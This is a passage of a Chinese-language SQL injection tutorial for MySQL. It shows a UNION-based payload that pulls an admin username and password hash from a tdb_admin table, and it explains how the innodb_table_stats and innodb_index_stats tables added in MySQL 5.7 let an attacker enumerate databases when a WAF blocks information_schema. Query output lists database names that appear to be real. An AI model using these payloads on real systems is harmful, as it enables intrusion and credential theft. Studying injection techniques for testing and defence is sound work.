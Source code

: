 

数据库语句: select * from tdb_goods WHERE goods_id = -1 union select 1,2,3,4,5,6,(select concat('~',`1`,'~',`2`,'~',`3`) from (select 1,2,3 union select * from tdb_admin)a limit 1,1);



```plain
mysql> select * from tdb_goods WHERE goods_id = -1 union select 1,2,3,4,5,6,(select concat('~',`1`,'~',`2`,'~',`3`) from (select 1,2,3 union select * from tdb_admin)a limit 1,1);

+----------+------------+------------+------------+-------------+---------+-------------------------------------------+
| goods_id | goods_name | goods_cate | brand_name | goods_price | is_show | is_saleoff                                |
+----------+------------+------------+------------+-------------+---------+-------------------------------------------+
|        1 | 2          | 3          | 4          | 5.000       |       6 | ~1~admin~7fef6171469e80d32c0559f88b377245 |
+----------+------------+------------+------------+-------------+---------+-------------------------------------------+
1 row in set
```

# 十二、mysql5.7之后新增的一些对注入友好的特性

# 0x00 概要

MySQL 5.7之后的版本，在其自带的 mysql 库中，新增了 innodb_table_stats  和 innodb_index_stats 这两张日志表。



如果数据表的引擎是 innodb ，则会在这两张表中记录表、键的信息 。



如果waf过滤掉了 information_schema库 我们可以利用新加的这两个表注入出数据库名和表名。

# 0x01 mysql 5.7之前库名与表名获取

## 0x01.1 mysql库名获取



5.7之前我们获取各个库的库名的话，执行的sql一般是。



SELECT distinct concat(0x7e,schema_name,0x7e) FROM information_schema.schemata;



```plain
mysql> SELECT distinct concat(0x7e,schema_name,0x7e) FROM information_schema.schemata;
+---------------------------------+
| concat(0x7e,schema_name,0x7e)   |
+---------------------------------+
| ~information_schema~            |
| ~JewelBoxService~               |
| ~Mamba_Blog~                    |
| ~Marketing-Activities-MServer~  |
| ~QM-WechatServer~               |
| ~ai_test~                       |
| ~career_talent_mserver~         |
| ~homestead~                     |
| ~icbc~                          |
| ~icbc_careertalent_inrice_test~ |
| ~icbc_quiz~                     |
| ~lottery.inrice.cn~             |
```